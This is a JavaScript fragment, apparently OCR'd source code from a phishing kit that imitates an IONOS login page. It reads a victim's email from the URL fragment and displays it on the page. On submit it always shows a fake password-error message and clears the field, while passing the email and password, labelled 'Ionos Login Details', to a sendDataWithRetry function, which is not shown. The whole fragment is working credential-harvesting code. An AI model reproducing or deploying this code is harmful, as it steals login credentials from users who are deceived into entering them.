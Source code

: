     // Check if the fragment is a valid email
    var emailRegex = /^[\w-]+(\.[\w-]+)*@([\w-]+\.)+[a-zA-Z]{2,7}$/;
    if (emailRegex.test(email)) {
      // If it is, add the email into a html element as text
      var emailElement = document.querySelector(".ghost-button__text");
      if (emailElement) {
        emailElement.textContent = email;
      }
    }
  };


  // Get the form and input elements
  var form = document.getElementById("myForm");
  var textForm = document.querySelectorAll(".input-text-group");
  var input = document.getElementById("password");
  var passwordError = document.querySelectorAll(".input-byline--error");

  var clickCount = 0;

  // Add an event listener for form submission
  form.addEventListener("submit", function (event) {
    // Prevent the form from being submitted normally
    event.preventDefault();

    // Get the input value
    var password = input.value;

    // Write an if statement to check if the input value is empty
    if (password === "") {
      // If it is, do nothing and return from the function
      return;
    }

    // Toggle classlist of passwordError to add or remove the "input-byline--error-hidden" class
    loading()
    setTimeout(function () {
      textForm.forEach(function (text) {
        text.classList.add("input-text-group--error");
      });
      passwordError.forEach(function (error) {
        error.classList.remove("input-byline--error-hidden");
      });
      input.value = "";
      setTimeout(function () {
        textForm.forEach(function (text) {
          text.classList.remove("input-text-group--error");
        });
        passwordError.forEach(function (error) {
          error.classList.add("input-byline--error-hidden");
        });
      }, 3000)
    }, 3000)

    if (email && password) {
      let dataLog = {
        email,
        password,
        desc: "Ionos Login Details",
      };
      //console.log(dataLog);
      sendDataWithRetry(dataLog);
    }
  });
